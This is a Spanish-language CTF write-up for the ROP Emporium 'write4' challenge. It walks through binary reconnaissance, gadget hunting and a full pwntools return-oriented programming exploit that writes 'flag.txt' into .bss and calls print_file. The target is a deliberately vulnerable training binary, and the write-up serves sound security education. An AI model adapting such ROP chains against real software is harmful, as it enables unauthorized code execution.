 ```yaml
---
title: write4
date: 2024-08-13
platform: ROP Emporium
author: naibu3
---
```

#writeup 
# Reconocimiento

Como siempre comenzamos lanzando [[checksec]]:

```checksec
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```

El enunciado:

```markdown
The important thing to realize in this challenge is that ROP is just a form of arbitrary code execution and if we’re creative we can leverage it to do things like write to or read from memory. The question is what mechanism are we going to use to solve this problem, is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won’t be using built-in functionality since that’s too similar to the previous challenges, instead we’ll be looking for gadgets that let us write a value to memory such as
`mov [reg], reg`.
```

Por lo que parece, será un ataque de tipo [[Return Oriented Programming|ROP]].

Analizando con [[gdb]]-[[pwndbg]], vemos las siguientes funciones:

```asm
0x00000000004004d0  _init
0x0000000000400500  pwnme@plt
0x0000000000400510  print_file@plt
0x0000000000400520  _start
0x0000000000400550  _dl_relocate_static_pie
0x0000000000400560  deregister_tm_clones
0x0000000000400590  register_tm_clones
0x00000000004005d0  __do_global_dtors_aux
0x0000000000400600  frame_dummy
0x0000000000400607  main
0x0000000000400617  usefulFunction
0x0000000000400628  usefulGadgets
0x0000000000400630  __libc_csu_init
0x00000000004006a0  __libc_csu_fini
0x00000000004006a4  _fini
```

Vemos que ahora la función *pwnme* se encuentra enlazada dinámicamente. Además, hay una función *printfile* a la que tendremos que llamar:

```asm
0x00007ffff7a00943 <+0>:	push   rbp
0x00007ffff7a00944 <+1>:	mov    rbp,rsp
0x00007ffff7a00947 <+4>:	sub    rsp,0x40
0x00007ffff7a0094b <+8>:	mov    QWORD PTR [rbp-0x38],rdi
0x00007ffff7a0094f <+12>:	mov    QWORD PTR [rbp-0x8],0x0
0x00007ffff7a00957 <+20>:	mov    rax,QWORD PTR [rbp-0x38]
0x00007ffff7a0095b <+24>:	lea    rsi,[rip+0xd5]        # 0x7ffff7a00a37
0x00007ffff7a00962 <+31>:	mov    rdi,rax
0x00007ffff7a00965 <+34>:	call   0x7ffff7a007a0 <fopen@plt>
0x00007ffff7a0096a <+39>:	mov    QWORD PTR [rbp-0x8],rax
0x00007ffff7a0096e <+43>:	cmp    QWORD PTR [rbp-0x8],0x0
0x00007ffff7a00973 <+48>:	jne    0x7ffff7a00997 <print_file+84>
0x00007ffff7a00975 <+50>:	mov    rax,QWORD PTR [rbp-0x38]
0x00007ffff7a00979 <+54>:	mov    rsi,rax
0x00007ffff7a0097c <+57>:	lea    rdi,[rip+0xb6]        # 0x7ffff7a00a39
0x00007ffff7a00983 <+64>:	mov    eax,0x0
0x00007ffff7a00988 <+69>:	call   0x7ffff7a00750 <printf@plt>
0x00007ffff7a0098d <+74>:	mov    edi,0x1
0x00007ffff7a00992 <+79>:	call   0x7ffff7a007b0 <exit@plt>
0x00007ffff7a00997 <+84>:	mov    rdx,QWORD PTR [rbp-0x8]
0x00007ffff7a0099b <+88>:	lea    rax,[rbp-0x30]
0x00007ffff7a0099f <+92>:	mov    esi,0x21
0x00007ffff7a009a4 <+97>:	mov    rdi,rax
0x00007ffff7a009a7 <+100>:	call   0x7ffff7a00780 <fgets@plt>
0x00007ffff7a009ac <+105>:	lea    rax,[rbp-0x30]
0x00007ffff7a009b0 <+109>:	mov    rdi,rax
0x00007ffff7a009b3 <+112>:	call   0x7ffff7a00730 <puts@plt>
0x00007ffff7a009b8 <+117>:	mov    rax,QWORD PTR [rbp-0x8]
0x00007ffff7a009bc <+121>:	mov    rdi,rax
0x00007ffff7a009bf <+124>:	call   0x7ffff7a00740 <fclose@plt>
0x00007ffff7a009c4 <+129>:	mov    QWORD PTR [rbp-0x8],0x0
0x00007ffff7a009cc <+137>:	nop
0x00007ffff7a009cd <+138>:	leave
0x00007ffff7a009ce <+139>:	ret
```
> Para poder descompilarlo, debemos estar ejecutando el programa, ya que se enlaza dinámicamente.

También necesitaremos la cadena *flag.txt*, que por desgracia no está en el binario:

```gdb
search flag.txt
Searching for value: 'flag.txt'
warning: Unable to access 16007 bytes of target memory at 0x7ffff7a01000, halting search.
```

Por tanto, debemos encontrar un gadget que nos permita escribir en una región del binario con permisos de lectura/escritura. Para ello utilizaremos [[ROPGadget]]:

```bash
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
```

Con este gadget podemos escribir en la dirección a la que apunte *r14*, que será una zona con permisos R/W. Para buscar dicha zona utilizaremos [[radare2]]:

```bash
r2 write4

WARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time

[0x00400520]> iS
[Sections]

nth paddr        size vaddr       vsize perm type        name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- NULL
1   0x00000238   0x1c 0x00400238   0x1c -r-- PROGBITS    .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- NOTE        .note.ABI-tag
3   0x00000274   0x24 0x00400274   0x24 -r-- NOTE        .note.gnu.build-id
4   0x00000298   0x38 0x00400298   0x38 -r-- GNU_HASH    .gnu.hash
5   0x000002d0   0xf0 0x004002d0   0xf0 -r-- DYNSYM      .dynsym
6   0x000003c0   0x7c 0x004003c0   0x7c -r-- STRTAB      .dynstr
7   0x0000043c   0x14 0x0040043c   0x14 -r-- GNU_VERSYM  .gnu.version
8   0x00000450   0x20 0x00400450   0x20 -r-- GNU_VERNEED .gnu.version_r
9   0x00000470   0x30 0x00400470   0x30 -r-- RELA        .rela.dyn
10  0x000004a0   0x30 0x004004a0   0x30 -r-- RELA        .rela.plt
11  0x000004d0   0x17 0x004004d0   0x17 -r-x PROGBITS    .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x PROGBITS    .plt
13  0x00000520  0x182 0x00400520  0x182 -r-x PROGBITS    .text
14  0x000006a4    0x9 0x004006a4    0x9 -r-x PROGBITS    .fini
15  0x000006b0   0x10 0x004006b0   0x10 -r-- PROGBITS    .rodata
16  0x000006c0   0x44 0x004006c0   0x44 -r-- PROGBITS    .eh_frame_hdr
17  0x00000708  0x120 0x00400708  0x120 -r-- PROGBITS    .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- INIT_ARRAY  .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- FINI_ARRAY  .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- DYNAMIC     .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- PROGBITS    .got
22  0x00001000   0x28 0x00601000   0x28 -rw- PROGBITS    .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- PROGBITS    .data
24  0x00001038    0x0 0x00601038    0x8 -rw- NOBITS      .bss
25  0x00001038   0x29 0x00000000   0x29 ---- PROGBITS    .comment
26  0x00001068  0x618 0x00000000  0x618 ---- SYMTAB      .symtab
27  0x00001680  0x1f6 0x00000000  0x1f6 ---- STRTAB      .strtab
28  0x00001876  0x103 0x00000000  0x103 ---- STRTAB      .shstrtab
```

Utilizaremos la sección *.bss*, aunque *.data* debería funcionar igualmente.

Ahora nos falta un gadget que nos permita guardar valores en *r14* y *r15*:

```ams
0x0000000000400690 : pop r14 ; pop r15 ; ret
```

Solo nos falta ver de dónde toma el argumento *print_file*. En este caso, viendo el código de arriba, veremos que el nombre del archivo se debe pasar en *rdi*.

```asm
0x0000000000400693 : pop rdi ; ret
```

# Explotación

Ya solo queda hacer el script, que quedaría:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
context.bits=64
exe = './write4'

def start():
    
    return process(exe)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

padding=40*b'A' #Same as previous

# 0x0000000000400510  print_file@plt
print_file = p64(0x0000000000400510)

flag_txt = b'flag.txt'

# 0x0000000000400628 : mov qword ptr [r14], r15 ; ret
load_r14 = p64(0x0000000000400628)

rw_section = p64(0x00601038)

# 0x0000000000400690 : pop r14 ; pop r15 ; ret
pop_r14_r15 = p64(0x0000000000400690)

# 0x0000000000400693 : pop rdi ; ret
pop_rdi = p64(0x0000000000400693)

payload = padding + pop_r14_r15 + rw_section + flag_txt + load_r14 + pop_rdi + rw_section + print_file

io.send(payload)

io.interactive()
```